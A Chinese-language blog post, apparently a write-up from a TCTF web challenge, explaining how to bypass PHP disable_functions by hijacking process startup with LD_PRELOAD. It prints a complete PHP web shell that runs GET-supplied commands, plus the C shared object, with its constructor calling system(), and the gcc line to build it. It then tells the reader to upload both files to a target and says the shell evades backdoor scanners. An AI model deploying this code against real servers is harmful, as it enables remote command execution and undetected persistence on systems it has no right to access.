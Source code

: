 # Bypass_disablefunction_by_LD_PRELOAD



之前在我的大话命令执行绕过中我们使用了imap_open或者email函数来突破

disable_function的限制，本篇介绍另外一种思路

从TCTF-web题目总结出

先贴出原文地址

[Bypass_disablefunction_by_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD/blob/master/bruce_lee.jpg)



首先明白几个基础的概念



### 一、LD_PRELOAD是什么

> LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime   linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。



[LD_PRELOAD的作用](https://blog.csdn.net/chen_jianjian/article/details/80627693)



其实在上面的连接中已经介绍的蛮清楚的



为了达到效果我们的流程应该是这样的：

启动新进程  new.bin

new.bin内部调用函数 func()

func()位于系统共享对象 c.so中

在c.so前优先加载 可控的c_evail.so

c_evail.so中包含函数 func()

由于c_evail.so的优先级高，new.bin将调用 c_evail.so中的 func()



从而达到劫持的效果



举个栗子🌰



bypass_disablefunc.php 

```php
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);

	#putenv是用来改变或增加环境变量的内容。 

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```





GCC 有个 C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行，若它出现在共享对象中时，那么一旦共享对象被系统加载，立即将执行 `__attribute__((constructor))` 修饰的函数。这一细节非常重要，很多朋友用 LD_PRELOAD 手法突破 disable_functions 无法做到百分百成功，正因为这个原因，**不要局限于仅劫持某一函数，而应考虑拦劫启动进程这一行为**。 



此外，我通过 LD_PRELOAD 劫持了启动进程的行为，劫持后又启动了另外的新进程，若不在新进程启动前取消 LD_PRELOAD，则将陷入无限循环，所以必须得删除环境变量 LD_PRELOAD。最直观的做法是调用 `unsetenv("LD_PRELOAD")`，这在大部份 linux 发行套件上的确可行，但在 centos 上却无效，究其原因，centos 自己也 hook 了  unsetenv()，在其内部启动了其他进程，根本来不及删除 LD_PRELOAD 就又被劫持，导致无限循环。所以，我得找一种比  unsetenv() 更直接的删除环境变量的方式。是它，全局变量 `extern char** environ`！实际上，unsetenv() 就是对 environ 的简单封装实现的环境变量删除功能。 



构造`**bypass_disablefunc.c** ` 

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```







一是 cmd 参数，待执行的系统命令（如 pwd）；二是 outpath 参数，保存命令执行输出结果的文件路径（如  /tmp/xx），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、web 是否可跨目录访问、文件将被覆盖和删除等几点；三是  sopath 参数，指定劫持系统函数的共享对象的绝对路径（如  /var/www/bypass_disablefunc_x64.so），另外关于该参数，你应注意 web  是否可跨目录访问到它。此外，bypass_disablefunc.php 拼接命令和输出路径成为完整的命令行，所以你不用在 cmd  参数中重定向。 



bypass_disablefunc_x64.so 为执行命令的共享对象，用命令 `gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc_x64.so` 将 bypass_disablefunc.c 编译而来。 若目标为 x86 架构，需要加上 -m32 选项重新编译，bypass_disablefunc_x86.so。 



想办法将 bypass_disablefunc.php 和 bypass_disablefunc_x64.so 传到目标，指定好三个 GET 参数后，bypass_disablefunc.php 即可突破 disable_functions。执行 `cat /proc/meminfo`



顺便说下，针对 wehshell 的查杀，一般是围绕代码执行函数（如 eval()）、命令执行函数（如 system()）、断言函数（如  assert()）开展的，而 bypass_disablefunc.php 这个 webshell 的本意是突破  disable_functions 执行命令，代码中无任何 webshell 特征函数，所以，副作用是，**它能免杀**。换言之，即便目标并未用 disable_functions 限制命令执行函数，你仍可将 bypass_disablefunc.php 视为普通小马来用，它能躲避后门查杀工具。 







